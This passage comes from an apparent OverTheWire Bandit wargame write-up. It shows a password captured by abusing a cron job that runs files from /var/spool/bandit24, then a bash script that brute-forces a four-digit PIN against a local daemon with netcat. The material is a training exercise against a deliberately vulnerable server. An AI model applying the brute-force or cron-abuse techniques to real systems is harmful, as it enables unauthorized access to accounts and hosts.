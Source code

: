 Now that we gave it all the permissions possible we just need to copy it to `/var/spool/bandit24` and wait for it to be ran.

```bash
bandit23@bandit:/var/spool/bandit24$ cat /tmp/dirforcron/pass
cat: /tmp/dirforcron/pass: No such file or directory
bandit23@bandit:/var/spool/bandit24$ cat /tmp/dirforcron/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Success!!! Let's go onto the next one.

## Level 25



>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

First let's try to connect and see what it prints. We will use netcat to connect as before.

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
(...jibberish...)
Wrong! Please enter the correct current password. Try again.
^C
```

So it expects the password and the pin code in a line separated by a space. You can use your preferred scripting language to try and bruteforce this. I'll use bash since it doesn't depend on anything being preinstalled in the system (besides bash of course).

```bash
#!/bin/bash
rm input1.txt
rm input2.txt
rm output.txt

touch output.txt
touch input.txt
for i in {0000..5000}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> input1.txt
done

for i in {5001..9999}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> input2.txt
done

echo "input created will start nc connection"

cat input1.txt | nc localhost 30002 >> output.txt
cat input2.txt | nc localhost 30002 >> output.txt

cat output.txt | grep -v Wrong
```
